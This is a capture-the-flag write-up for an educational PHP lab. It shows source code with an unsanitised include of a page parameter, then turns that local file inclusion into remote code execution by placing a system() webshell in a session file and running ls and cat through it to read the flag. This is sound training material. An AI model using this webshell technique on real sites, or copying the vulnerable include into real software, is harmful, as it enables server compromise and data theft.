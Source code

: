 ```yaml
---
title: Simple Web 0x01(Lab - Hello from Windows 98)
tags: [CTF, Web, eductf]

---
```


# Simple Web 0x01(Lab - Hello from Windows 98)
###### tags: `CTF` `Web` `eductf`
Challenge: https://windows.ctf.zoolab.org/

Very similar to [0x07(Lab - `HakkaMD`)](/nGAjlvyURtOcRBW1XfCfOA)

## Source code
:::spoiler code
```php!=
 <?php
  session_start();
  if(isset($_GET['source'])){
    highlight_file('./'.$_GET['source'].'.php');
    die();
  }
  if(isset($_GET['name']) && $_GET['name']!=''){
    $_SESSION['name'] = $_GET['name'];
    header("Location: /?page=hi.php");
    die();
  }
  if(!isset($_GET['page'])){
    header("Location: /?page=say.php");
    die();
  }
?>
<!DOCTYPE html>
<html>
<head>
  <title>Hello from Windows 98</title>
  <meta charset="UTF-8" />
  <link rel="stylesheet" href="https://unpkg.com/98.css" />
</head>
<style>
    body{
        background: url('blue.png');
        background-size: cover;
        display: flex;
        align-items: center;
        justify-content: center;
        height: 100vh;
        margin: 0;
    }
</style>
</style>
<body>
  <div class="window" style="margin: 32px; width: 500px">
    <div class="title-bar">
      <div class="title-bar-text">
        Hello World..
      </div>
      <div class="title-bar-controls">
        <button aria-label="Minimize"></button>
        <button aria-label="Maximize"></button>
        <button aria-label="Close"></button>
      </div>
    </div>
    <div class="window-body">
      <?php include($_GET['page']);?>
    </div>
  </div>
</body>
</html>

```
:::

## Exploit - LFI to RCE
1. First things first, the website has `LFI` problem
`https://windows.ctf.zoolab.org/?page=/etc/passwd`
![](https://i.imgur.com/2BHfWtQ.png)

2. <font color="FF0000">**通靈**</font>
It didn't provide any information about system, so we can assume the setting is default at first.

3. `webshell`
`<?php system($_GET['sh']); ?>`
↓
We use `LFI` to read session file:
`https://windows.ctf.zoolab.org/?page=/tmp/sess_995c0ecc84473170723e595f9f4b8829`
![](https://i.imgur.com/gAnKZGF.png)
It execute system function successfully.
↓
`https://windows.ctf.zoolab.org/?page=/tmp/sess_995c0ecc84473170723e595f9f4b8829&sh=ls%20/var/www/html`
↓
![](https://i.imgur.com/JOOmyyl.png)
↓
`https://windows.ctf.zoolab.org/?page=/tmp/sess_995c0ecc84473170723e595f9f4b8829&sh=cat%20/var/www/html/flag.txt`
4. Then we got flag!!!
